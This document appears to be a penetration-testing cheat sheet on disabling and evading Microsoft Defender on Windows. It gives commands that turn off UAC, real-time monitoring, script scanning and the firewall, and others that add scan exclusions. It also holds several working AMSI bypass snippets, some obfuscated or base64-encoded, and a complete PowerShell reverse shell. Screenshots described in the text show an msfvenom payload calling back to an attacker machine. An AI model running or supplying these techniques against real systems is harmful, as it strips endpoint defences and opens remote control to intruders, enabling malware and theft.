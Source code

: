 # Disable and Bypass Defender

## Check if Defender is enabled

```powershell
# Check if Defender is enabled
Get-MpComputerStatus
Get-MpComputerStatus | Select AntivirusEnabled

# Check if defensive modules are enabled
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled,AntispywareEnabled | FL

# Check if tamper protection is enabled
Get-MpComputerStatus | Select IsTamperProtected,RealTimeProtectionEnabled | FL
```

### Alternative Antivirus products

In some cases if it appears Defender is not enabled an alternative Antivirus solution may be in effect.

```bash
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

![](<../../../.gitbook/assets/image (2039) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Decoding the value of ProductState to hex can help identify which Antivirus is enabled

```powershell
'0x{0:x}' -f <ProductState>
'0x{0:x}' -f 393472
```

From the values below anything that has a **10** starting from the fourth numerical position indicates **On** and anything else indicates **Off**. As below we can see BitDefender is enabled and Windows Defender is disabled.

![](<../../../.gitbook/assets/image (2032) (1).png>)

## Turning off features

**Note:** Disabling `UAC` is advisable before attempting to turn features off. In testing some changes prompted for user confirmation before allowing change.

```bash
cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"
```

**Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

```bash
# Disables realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disables scanning for downloaded files or attachments
Set-MpPreference -DisableIOAVProtection $true

# Disable behaviour monitoring
Set-MPPreference -DisableBehaviourMonitoring $true

# Make exclusion for a certain folder
Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# Disables cloud detection
Set-MPPreference -DisableBlockAtFirstSeen $true

# Disables scanning of .pst and other email formats
Set-MPPreference -DisableEmailScanning $true

# Disables script scanning during malware scans
Set-MPPReference -DisableScriptScanning $true

# Exclude files by extension
Set-MpPreference -ExclusionExtension "ps1"

# Turn off everything and set exclusion to "C:\Windows\Temp"
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

### Bypassing with Path Exclusions

With reference to above we see its possible to use `PowerShell` to exclude Windows Defender from taking action on certain paths, using path exclusions.

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

Running `curl` on a `msfvenom` payload where the output folder is outside of the defined exclusion path:

![](<../../../.gitbook/assets/image (2034) (1) (1) (1).png>)

Running the same command again however, this time specifying the excluded path from Defender `C:\temp` we see Defender has not picked up the malware.

![](<../../../.gitbook/assets/image (2038) (1) (1) (1) (1) (1) (1) (1).png>)

Over on the attackers machine we see the `msfvenom` payload has connected back. Under normal circumstances AV will have no issues discovering this msfvenom payload.

![](<../../../.gitbook/assets/image (2036) (1) (1) (1) (1).png>)

### Firewall

Disable all Firewall profiles (Requires Admin privileges).

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

## AMSI Bypass

### **Tools**

**Amsi.Fail:** [https://amsi.fail/](https://amsi.fail/)

**AMSITrigger:** [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)

### **PowerShell snippets**

{% tabs %}
{% tab title="Bypass 2023" %}
{% code overflow="wrap" %}
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
{% endcode %}
{% endtab %}

{% tab title="Bypass 12/2021" %}
[https://github.com/tihanyin/PSSW100AVB/blob/main/AMSI\_bypass\_2021\_12.ps1](https://github.com/tihanyin/PSSW100AVB/blob/main/AMSI\_bypass\_2021\_12.ps1)

```powershell
$A="5492868772801748688168747280728187173688878280688776"
$B="8281173680867656877679866880867644817687416876797271"
function C($n, $m){
[string]($n..$m|%{[char][int](29+($A+$B).
    substring(($_*2),2))})-replace " "}
$k=C 0 37; $r=C 38 51
$a=[Ref].Assembly.GetType($k)
$a.GetField($r,'NonPublic,Static').SetValue($null,$true)
```
{% endtab %}

{% tab title="Bypass 09/2021" %}
[https://github.com/tihanyin/PSSW100AVB/blob/main/AMSI\_bypass\_2021\_09.ps1](https://github.com/tihanyin/PSSW100AVB/blob/main/AMSI\_bypass\_2021\_09.ps1)

```powershell
$A="5492868772801748688168747280728187173688878280688776828"
$B="1173680867656877679866880867644817687416876797271"
[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).
substring(($_*2),2))})-replace " " ).
GetField([string](38..51|%{[char][int](29+($A+$B).
substring(($_*2),2))})-replace " ",'NonPublic,Static').
SetValue($null,$true)
```
{% endtab %}

{% tab title="Obfuscated" %}
```powershell
#1
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."AssEmbly"."GETTYPe"(( "{6}{3}{1}{4}{2}{0}{5}" -f 'Util','A','Amsi','.Management.','utomation.','s','System' ) )."getfiElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sETVaLUE"( ${nULl},${tRuE} )

#2
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#3
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
{% endtab %}

{% tab title="Base64" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endtab %}
{% endtabs %}

## Undetected Reverse Shells

```powershell
$c = New-Object System.Net.Sockets.TCPClient(<IP>,<Port>);
$I = $c.GetStream();
[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n")
$I.Write($U,0,$U.Length)
$U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$I.Write($U,0,$U.Length)
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String );
$r  = $a + (pwd).Path + '> ';
$m = ([text.encoding]::ASCII).GetBytes($r);
$I.Write($m,0,$m.Length);
$I.Flush()};
$c.Close()
```

## Further AMSI Reading

**URL:** [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

**URL:** [https://amsi.fail/](https://amsi.fail/)

## Resources

**Tamper Protection:** [https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide)
